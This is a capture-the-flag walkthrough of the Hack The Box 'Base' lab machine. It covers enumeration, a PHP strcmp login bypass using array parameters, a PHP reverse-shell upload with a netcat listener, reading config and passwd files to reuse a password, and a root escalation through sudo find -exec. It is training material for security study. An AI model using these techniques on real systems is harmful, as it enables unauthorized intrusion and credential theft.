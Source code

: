 Hack The Box :: Starting Point :: Base :: Linux

# Enumeration

We begin by running an Nmap scan.
`nmap -A -v 10.10.10.48`
The scan reveals that ports 22 (SSH) and 80 (Apache) are open.

[nmap.webp](../_resources/1862f6a04dd03d94a9d29e6a9549bb27.webp)

Let's check out the website.

![apache.png](../_resources/b4de1fca68294b6ef22f1667869a54c2.png)

GoBuster is used to scan for files and folders.
`gobuster dir -u http://10.10.10.48 -w /usr/share/wordlists/dirb/big.txt`
It dsicovers two interesting folders, `_uploaded` and `login`.

[gobuster.webp](../_resources/c59bb4708fdeae2d63bc15dfee6721c3.webp)

The login page is located at `/login/login.php`.
[login.webp](../_resources/7ee55a7ab678fa706f3af2e3d6c5e118.webp)

The login folder is found to be listable due to a misconfiguration.

![folder.png](../_resources/26223ea52c9486de68f99ce984b02709.png)

# Foothold

In the login folder, a file named `login.php.swp` is found. It's not uncommon for files to be edited in place on a web server. Editors such as Nano and Vim create temporary files if not closed gracefully. We can download the .swp file and view the source code for `login.php` using the **strings** command.

`strings login.php.swp`
The command returns the following code.

	if (!empty($_POST['username']) && !empty($_POST['password'])) {
	    require('config.php');
	    if (strcmp($username, $_POST['username']) == 0) {
	        if (strcmp($password, $_POST['password']) == 0) {
	            $_SESSION['user_id'] = 1;
	            header("Location: ../upload.php");
	        } else {
	            print("<script>alert('Wrong Username or Password')</script>");
	        }
	    } else {
	        print("<script>alert('Wrong Username or Password')</script>");
	    }
	}

The above code checks the username/password combination that the user inputs, against the variables that are stored in `config.php` to see if they match. The following lines are interesting.

	if (strcmp($password, $_POST['password']) == 0) {
	  if (strcmp($username , $_POST['username']) == 0) {

The developer is using **strcmp** to check the username and password, which is insecure and can easily be bypassed. This is due to the fact that if strcmp is given an empty array to compare against the stored password, it will return null. In PHP the `==` operator only checks the value of a variable for equality, and the value of `NULL` is equal to `0`. The correct way to write this would be with the `===` operator which checks both value and type. Let's open burp and catch the login request.

	POST /login/login.php HTTP/1.1
	Host: 10.10.10.48
	User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:68.0) Gecko/20100101 Firefox/68.0
	Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
	Accept-Language: en-US,en;q=0.5
	Accept-Encoding: gzip, deflate
	Referer: http://10.10.10.48/login/login.php
	Content-Type: application/x-www-form-urlencoded
	Content-Length: 29
	Origin: http://10.10.10.48
	DNT: 1
	Connection: close
	Cookie: PHPSESSID=0731pqk8tslq6ekg167ttbjlj7
	Upgrade-Insecure-Requests: 1

	username=admin&password=admin

Change the POST data as follows to bypass the login.
`username[]=admin&password[]=admin`

This converts the variables to arrays and bypasses strcmp. Once logged in, we see there is additional functionality to upload files.

![upload.png](../_resources/f75680780066d1c85f178050ae4d3f23.png)

Let's try to upload a [reverse shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) and executed it from the browser. Modify the shell and change the local IP to your own. Upload it and start a netcat listener.

`nc -lvp 1234`

The file is accessible from the **_uploaded** folder, which was discovered earlier. The URL will be http://10.10.10.48/_uploaded/rev.php .

[shell.webp](../_resources/753741fb6f4673056a7447cf5af58696.webp)

# Lateral Movement

A basic enumeration check is to search the file system for database passwords. Let's read the config.php in `/var/www/html/login`.

`cat /var/www/html/login/config.php`
The configuration file contains the following password.

	<?php
	$username = "admin";
	$password = "thisisagoodpassword";$

We can also read `/etc/passwd` to find the username `john`. The password can be used to login `john`. Let's upgrade to a pty shell and su to that user.

	python -c 'import pty; pty.spawn("/bin/bash")'
	su john
	Password: thisisagoodpassword

The user flag is located in `/home/john`.

# Privilege Escalation

Since we have the users password let's see if we can run any commands using sudo.

`sudo -l`
It seems that we can run **find** as sudo.
[sudo.webp](../_resources/3f898a6689bed2fa24078668bfa5ab59.webp)

This binary can be used to execute commands as. It searches for files in the root folder of the system and executes the bash shell as root.

`sudo /usr/bin/find /etc -exec /bin/bash \;`
The root flag can be found in `/root`.